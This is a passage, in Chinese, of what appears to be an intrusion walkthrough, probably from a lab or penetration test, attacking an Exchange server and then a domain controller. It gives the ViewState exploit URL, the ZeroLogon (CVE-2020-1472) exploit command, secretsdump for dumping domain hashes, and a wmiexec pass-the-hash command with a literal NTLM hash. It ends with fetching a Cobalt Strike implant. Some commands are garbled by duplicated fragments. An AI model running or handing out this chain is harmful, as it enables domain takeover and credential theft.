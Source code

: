 然后将 payload 进行 URL 编码访问, 记得替换 <generator> 以及 <ViewState> :

/ecp/default.aspx?__VIEWSTATEGENERATOR=<generator>&__VIEWSTATE=<ViewState>

访问后会 500，等上线就可以了。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEIrKlMLLgqrFkWJHdpmqARNvS6XzxRyKjLgZPSY7AnIibTjX2jfED5ibA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEvZdWbZbOV2mBMUPflGQWgStexFINIibRb6oGn5CHmHpv0rrLjKxPutQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEESdDlcAulM906t1BK0vso8DcS2F1ibunfQRb8oj0rWvrnkgE4H5Yn6tA/640?wx_fmt=png)

**DC Server**

域控我们之前探测的是 201，最先想到的是 CVE-2020-1472

**CVE-2020-1472**

1、置空:

```
proxychains cve-2020-1472-exploit.py12server-dc$(dc name) 10.10.10.201(dc ip)  proxychainscve-2020-1472-exploit.py 12server-dc$ 10.10.10.201
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEveFOVRwFQqbIp8twyZ3uZ2icdfghhwu8pyv4OfKp7To2vMuvgT6R9iaA/640?wx_fmt=png)

2、导 hash—(脚本报错没有 impacket.example.utils 以及 keyta 库解决方案):

将 impacket-master/impacket/example/utils 以及 impacket-master/impacket/example/krb5 拷贝到脚本目录，并修改引用库如下:

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEfOv0xwiblXB06bMpcGDoiaaq86uIfl4f6M3A9x60qFRavFGlP2RIeUEw/640?wx_fmt=png)

```
proxychains python3 secretsdump.pycncat/12SERVER-DC\$@10.10.10.201(dc/dc name@dc ip，$要转义) -no-pass   proxychains python3 secretsdump.pyXXX/12SERVER-DC\$@10.10.10.201 -no-pass
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEK31U4A9HiaFnIPK5ib6aDdY3ucpHBlvfKWYXdTolX1icafpzjD2yyytwQ/640?wx_fmt=png)

3、拿 shell

```
python3 wmiexec.py -hashesaad3b435b51404eeaad3b435b51404ee:42e2656ec24331269f82160ff5962387(administrator'shashes) XXX/administrator@10.10.10.201(domain/administrator@domainip)  python3 wmiexec.py -hashesaad3b435b51404eeaad3b435b51404ee:42e2656ec24331269f82160ff5962387cncat.cc/administrator@10.10.10.201
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEExJ7xicHxyFd1czM2onrDkhUrICIPbt3kOIYu3LQsMXFqa8QvwSPLX4g/640?wx_fmt=png)

同样下载 redis 上面的马来上线 CS:

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEETqV1lz4gIuqUfOxxqZtwT5aFEa0qIGAuYVkbVuKFweBa3hegZgfwmg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEQczHvNMcajKSd4p61NPDebRKXXMPSicAoczzHml4fzRWicoYzqwvlzicA/640?wx_fmt=png)
